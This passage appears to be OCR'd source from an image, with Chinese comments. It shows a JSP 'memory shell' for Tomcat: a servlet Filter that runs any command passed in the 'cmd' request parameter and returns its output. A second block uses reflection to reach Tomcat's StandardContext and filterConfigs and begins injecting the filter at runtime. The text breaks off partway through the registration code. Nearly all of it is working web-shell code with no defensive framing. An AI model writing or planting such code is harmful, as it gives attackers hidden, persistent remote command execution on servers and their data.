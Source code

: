 ```Java

<%
class filterDemo implements Filter {
@Override
public void init(FilterConfig filterConfig) throws ServletException {
}
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
String cmd = servletRequest.getParameter("cmd");
if (cmd!= null) {
Process process = Runtime.getRuntime().exec(cmd);
java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
new java.io.InputStreamReader(process.getInputStream()));
StringBuilder stringBuilder = new StringBuilder();
String line;
while ((line = bufferedReader.readLine()) != null) {
stringBuilder.append(line + '\n');
}
servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
servletResponse.getOutputStream().flush();
servletResponse.getOutputStream().close();
return;
}
filterChain.doFilter(servletRequest, servletResponse);
}


@Override
public void destroy() {


}


}
%>




<%
//从org.apache.catalina.core.ApplicationContext反射获取context方法
ServletContext servletContext =  request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
Map filterConfigs = (Map) Configs.get(standardContext);


String name = "filterDemo";
//判断是否存在filterDemo1这个filter，如果没有则准备创建
if (filterConfigs.get(name) == null){
//定义一些基础属性、类名、filter名等
filterDemo filter = new filterDemo();
FilterDef filterDef = new FilterDef();
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
filterDef.setFilter(filter);
```